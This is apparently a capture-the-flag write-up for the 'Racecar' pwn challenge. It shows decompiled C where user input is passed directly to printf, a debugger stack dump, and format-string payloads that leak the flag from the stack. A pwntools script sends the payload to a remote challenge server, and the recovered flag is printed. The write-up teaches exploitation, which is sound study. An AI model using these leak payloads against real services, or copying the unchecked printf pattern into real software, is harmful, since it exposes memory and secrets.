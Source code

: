 ### Challenge: Racecar

### Type: PWN

We have another Format String Vulnerability! but this one is a bit easier than the last one I did. Technically you do not even have to use the format string attack.

Running the program gives a bunch of different options for winning a race. Winning the race is the first step to locating the flag.

```console
🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌
      ______                                       |xxx|
     /|_||_\`.__                                   | F |
    (   _    _ _\                                  |xxx|
*** =`-(_)--(_)-'                                  | I |
                                                   |xxx|
                                                   | N |
                                                   |xxx|
                                                   | I |
                                                   |xxx|
             _-_-  _/\______\__                    | S |
           _-_-__ / ,-. -|-  ,-.`-.                |xxx|
            _-_- `( o )----( o )-'                 | H |
                   `-'      `-'                    |xxx|
🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌🎌

Insert your data:

Name: 2
Nickname: 2

[+] Welcome [2]!

[*] Your name is [2] but everybody calls you.. [2]!
[*] Current coins: [69]

1. Car info
2. Car selection
> 2


Select car:
1. 🚗
2. 🏎️
> 2


Select race:
1. Highway battle
2. Circuit
> 1

[*] Waiting for the race to finish...

[+] You won the race!! You get 100 coins!
[+] Current coins: [169]

[!] Do you have anything to say to the press after your big victory?
> 
```

Now in Ghidra we can see the important function that will print our flag.

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void car_menu(void)

{
  int iVar1;
  int iVar2;
  uint __seed;
  size_t sVar3;
  char *__format;
  FILE *__stream;
  int in_GS_OFFSET;
  undefined *puVar4;
  int local_5c;
  int local_58;
  uint local_54;
  char local_3c [44];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  do {
    printf(&DAT_00011948);
    iVar1 = read_int();
    if ((iVar1 != 2) && (iVar1 != 1)) {
      printf("\n%s[-] Invalid choice!%s\n",&DAT_00011548,&DAT_00011538);
    }
  } while ((iVar1 != 2) && (iVar1 != 1));
  iVar2 = race_type();
  __seed = time((time_t *)0x0);
  srand(__seed);
  if (((iVar1 == 1) && (iVar2 == 2)) || ((iVar1 == 2 && (iVar2 == 2)))) {
    local_5c = rand();
    local_5c = local_5c % 10;
    local_58 = rand();
    local_58 = local_58 % 100;
  }
  else if (((iVar1 == 1) && (iVar2 == 1)) || ((iVar1 == 2 && (iVar2 == 1)))) {
    local_5c = rand();
    local_5c = local_5c % 100;
    local_58 = rand();
    local_58 = local_58 % 10;
  }
  else {
    local_5c = rand();
    local_5c = local_5c % 100;
    local_58 = rand();
    local_58 = local_58 % 100;
  }
  local_54 = 0;
  while( true ) {
    sVar3 = strlen("\n[*] Waiting for the race to finish...");
    if (sVar3 <= local_54) break;
    putchar((int)"\n[*] Waiting for the race to finish..."[local_54]);
    if ("\n[*] Waiting for the race to finish..."[local_54] == '.') {
      sleep(0);
    }
    local_54 = local_54 + 1;
  }
  if (((iVar1 == 1) && (local_5c < local_58)) || ((iVar1 == 2 && (local_58 < local_5c)))) {
    printf("%s\n\n[+] You won the race!! You get 100 coins!\n",&DAT_00011540);
    coins = coins + 100;
    puVar4 = &DAT_00011538;
    printf("[+] Current coins: [%d]%s\n",coins,&DAT_00011538);
    printf("\n[!] Do you have anything to say to the press after your big victory?\n> %s",
           &DAT_000119de);
    __format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar4);
                    /* WARNING: Subroutine does not return */
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world  to know this: \x1b[0m"
        );
    printf(__format);
  }
  else if (((iVar1 == 1) && (local_58 < local_5c)) || ((iVar1 == 2 && (local_5c < local_58)))) {
    printf("%s\n\n[-] You lost the race and all your coins!\n",&DAT_00011548);
    coins = 0;
    printf("[+] Current coins: [%d]%s\n",0,&DAT_00011538);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

Towards the bottom we can see that __stream will open the flag.txt and read it. 

```c
__format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0)
```
And the fgets function also uses __stream. So lets go find this in GDB

```c
fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170)
```
Setting a breakpoint at ```0x56556002``` will take us to just after ```[!] Do you have anything to say to the press after your big victory?```

Here we can check how it is reading the flag.

```console
pwndbg> x/32x $esp
0xffffd020:	0x5655a200	0x5655a200	0x00000170	0x56555dfa
0xffffd030:	0x00000062	0x00000001	0x00000026	0x00000002
0xffffd040:	0x00000001	0x5655696c	0x5655a200	0x5655a380
0xffffd050:	0x7b425448	0x5f796877	0x5f643164	0x34735f31
0xffffd060:	0x745f3376	0x665f3368	0x5f67346c	0x745f6e30
0xffffd070:	0x355f3368	0x6b633474	0x007d213f	0xf3891500
0xffffd080:	0xf7fa53fc	0x56558f8c	0xffffd0a8	0x56556441
0xffffd090:	0x00000001	0xffffd164	0xffffd16c	0xf3891500
pwndbg> 
```

Now if you run these through cyberchef it will give you back the flag and other data.

Note: These hex all need their endianess swapped to come out correctly.

```.¢UV.¢UVp...ú]UVb.......&...........liUV.¢UV.£UVHTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}....óüSú÷..UV¨ÐÿÿAdUV....dÑÿÿlÑÿÿ...ó```

However to perform the format string attack you just need to input strings to leak data like so.

All of the %x are actually printing directly from the stack leaking the flag data.

```console
[!] Do you have anything to say to the press after your big victory?
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
574a41c0 170 56610dfa 30 7 26 2 1 5661196c 574a41c0 574a4340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 7d213f 838c7900 f7f673fc 56613f8c ffbb4bb8 56611441 1 ffbb4c64 ffbb4c6c 838c7900 ffbb4bd0 0 0 f7daaf21 f7f67000 f7f67000 0 f7daaf21 1 ffbb4c64 ffbb4c6c ffbb4bf4 1 ffbb4c64 f7f67000 f7f8570a ffbb4c60 0 f7f67000 0 0 c1a05b7c 26a3d6c 0 0 0
```

This is much more clean and you can convert the flag almost perfectly.

```console
[!] Do you have anything to say to the press after your big victory?
> %12$x %13$x %14$x %15$x %16$x %17$x %18$x %19$x %20$x %21$x %22$x %23$x

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 7d213f 20e68a00
```

And here is a simple python script to do the same thing.

Note: It will add a . to the end of this since the final hexidecimal is short. At least in cyber chef this is why i got the issue.

```python
#!/usr/bin/python3
from pwn import *

#context(os='linux', arch='amd64')
#libc = ELF('/home/htb-0xrogue/Downloads/challenge/glibc/libc.so.6')
#e = ELF('racecar')
#context.binary = e
#p = e.process()
p = remote("209.97.141.62",30326 )
p.sendlineafter("Name:", b"2")
p.sendlineafter("Nickname:", b"2")
p.sendlineafter(">", b"2")
p.sendlineafter(">", b"2")
p.sendlineafter(">", b"1")
p.sendlineafter(">", "%12$x %13$x %14$x %15$x %16$x %17$x %18$x %19$x %20$x %21$x %22$x %23$x")
p.recv()
response = p.recv()

print(response)
```
I hope somebody learned a little about format string, my previous write up for HTB apocalypse on Entrypoint is a little harder than this.
GG!
